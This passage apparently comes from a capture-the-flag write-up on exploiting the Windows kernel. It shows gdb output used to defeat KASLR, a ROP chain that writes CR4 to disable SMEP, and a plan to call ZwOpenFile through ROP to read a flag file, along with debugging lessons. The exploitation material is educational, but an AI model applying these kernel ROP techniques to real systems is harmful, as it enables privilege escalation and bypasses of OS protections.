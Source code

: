 Let's check out the mysterious kernel return address:

```
(gdb) x/a $rsp+0x30
0xfffff68e9e369818:	0xfffff80358a31f39
(gdb) x/2i 0xfffff80358a31f39
   0xfffff80358a31f39:	add    $0x38,%rsp
   0xfffff80358a31f3d:	retq
(gdb) x/8bx 0xfffff80358a31f39
0xfffff80358a31f39:	0x48	0x83	0xc4	0x38	0xc3	0x0f	0xb6	0x40
```

This byte sequence is something we can look up in `ntoskrnl.exe`:

```
.text:0000000140031EE0 IofCallDriver   proc near
...
.text:0000000140031F39                 add     rsp, 38h
.text:0000000140031F3D                 retn
```

Looks plausible - we can declare victory on KASLR now. How can we exploit? Now
that we know xor key, rsp and security cookie value, we can jump anywhere, but
where to?

First attempt: create a ROP chain to disable [SMEP](
https://en.wikipedia.org/wiki/Control_register#SMEP
) and then jump to userspace executable shellcode buffer. `ntoskrnl.exe` is a
trove of ROP gadgets of all shapes and sizes, and [ROPgadget](
https://github.com/JonathanSalwan/ROPgadget
) can gives us all of them!

```
Buf[pos++] = (KernelBase + 0x14001FC39 - 0x140001000);  /* pop rcx ; ret */
Buf[pos++] = 0x406f8;                                   /* cr4 value */
Buf[pos++] = (KernelBase + 0x14017ae47 - 0x140001000);  /* mov cr4, rcx ; ret */
```

What was [`KERNEL_SECURITY_CHECK_FAILURE`](
https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/bug-check---bug-check-0x139-kernel-security-check-failure
) again? Apparently in the meantime PatchGuard has been trained to detect CR4
modifications. Tough luck.

Attempt 2: use ROP chain to call [`ZwOpenFile`](
https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/content/wdm/nf-wdm-zwopenfile
) in order to create a userspace handle for `c:\flag.txt` and then, since we
have messed the kernel stack up beyond repair, don't even think about returning
to userspace, but rather park the thread in an endless loop - thanks to kernel
preemption the system remains operational. We can forge `ZwOpenFile` arguments
on the stack next to the ROP chain.

After countless crashes, four lessons were learned:

* Check layout of function arguments 7 times. Set a breakpoint in order to
inspect how they look like during normal system operation.
* Don't put said arguments (and anything at all) above the stack pointer -
interrupt handlers will mess them up.
* Align stack to 16 bytes before calling functions, or else `MOVDQA` and friends
will throw up.
* `ZwOpenFile` can create only kernel handles.
